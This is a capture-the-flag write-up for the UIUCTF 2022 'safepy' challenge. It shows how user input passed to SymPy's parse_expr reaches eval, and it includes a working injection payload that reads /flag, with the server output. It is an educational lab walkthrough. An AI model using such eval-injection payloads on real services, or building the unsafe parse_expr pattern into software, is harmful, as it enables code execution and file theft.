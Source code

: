 ```yaml
---
title: Writeup - Safepy (UIUCTF 2022)
date: 2022-08-04 00:00:00
tags: 
- writeup
- jail
- uiuctf2022
---
```


# UIUCTF 2022 - safepy Writeup
- Type - Jail
- Name - safepy
- Points - 50

## Description
```markdown
My calculator won't be getting pwned again...

$ nc safepy.chal.uiuc.tf 1337

author: tow_nater

[handout.tar.gz]
```

## Writeup
When you unzip the provided file for the challenge, you'll get the Python script run server-side along with some supporting files for the Docker setup. Outside of [line 28 of the Dockerfile](/static/uiuctf-safepy/Dockerfile) that shows the flag is located at `/flag`, the only useful file is `main.py`. The script is pretty short:

```python
from sympy import *

def parse(expr):
    # learned from our mistake... let's be safe now
    # https://stackoverflow.com/questions/33606667/from-string-to-sympy-expression
    # return sympify(expr)

    # https://docs.sympy.org/latest/modules/parsing.html
    return parse_expr(expr)

print('Welcome to the derivative (with respect to x) solver!')
user_input = input('Your expression: ')
expr = parse(user_input)
deriv = diff(expr, Symbol('x'))
print('The derivative of your expression is:')
print(deriv)
```

Our input is taken, parsed using `parse_expr`, and then stuck into the `diff` function with the output printed out. The `parse()` function gives us two very helpful links, [one](https://docs.sympy.org/latest/modules/parsing.html) to the documentation and [another](https://stackoverflow.com/questions/33606667/from-string-to-sympy-expression) about why `sympify` is dangerous. Reading through this article gave me an idea for how to approach this - `sympify` used `eval()` internally, so if I could get either `diff` or `parse_expr` to do the same, that would be great! 

While reading through the documentation provided, I read that an optional parameter for `parse_expr` was `evaluate`, with the default setting to True. This means that, by default, any expressions will be simplified if possible, which means it will use `eval()` inside of it. 

I started out with a test payload to see what it would do if I just input whatever code I wanted to - `print('a')`:

```
$ nc safepy.chal.uiuc.tf 1337
== proof-of-work: disabled ==
Welcome to the derivative (with respect to x) solver!
Your expression: print('a')
a
```

Since it looked like it ran the code, I decided to just put in a payload to print out the flag:

```
nc safepy.chal.uiuc.tf 1337
== proof-of-work: disabled ==
Welcome to the derivative (with respect to x) solver!
Your expression: print(open("/flag").read())
uiuctf{na1v3_0r_mal1ci0u5_chang3?}
```

And it worked!!

**Flag:** `uiuctf{na1v3_0r_mal1ci0u5_chang3?}`

## Real-World Application
My favorite part of this challenge is the real world application. This entire question was completely based off of a StackOverflow answer, and - as everyone knows - StackOverflow is the *source* for all programming information. This particular answer was from someone who said putting user-controlled input to `sympify()` is dangerous since it uses `eval` natively, so the `parse_expr` function should be used instead (implying this one was safe). As our problem demonstrated, that was **not** the case - `parse_expr` was just as dangerous as `sympify`. Did the user who submitted this answer know this? Not sure. But the moral of the story is **you can't always trust answers from random people on the internet**...
